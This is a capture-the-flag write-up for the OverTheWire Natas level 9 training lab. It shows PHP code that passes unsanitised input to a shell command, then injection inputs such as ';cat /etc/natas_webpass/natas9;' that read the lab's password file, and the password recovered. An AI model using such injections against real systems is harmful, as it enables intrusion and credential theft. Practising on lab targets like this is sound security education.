 # Natas Level 9
The ***URL*** to which you need to connect is *http://natas9.natas.labs.overthewire.org*. The ***username*** is *natas9* and the ***password*** is *W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl*. 

Lets check the [viewsource](http://natas9.natas.labs.overthewire.org/index-source.html) link.
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```
By analysing the php script we see that the filter is not being sanitize. Therefore, we can inject additional commands like "ls" 
##### Mark 


>When I enter "*" in the input I receive the index-source.html if you know why please let me know.

```
;pwd
# /var/www/natas/natas9
; find / -name natas9 -type f;
# /etc/natas_webpass/natas9
;cat /etc/natas_webpass/natas9;
```

```
Password : nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```
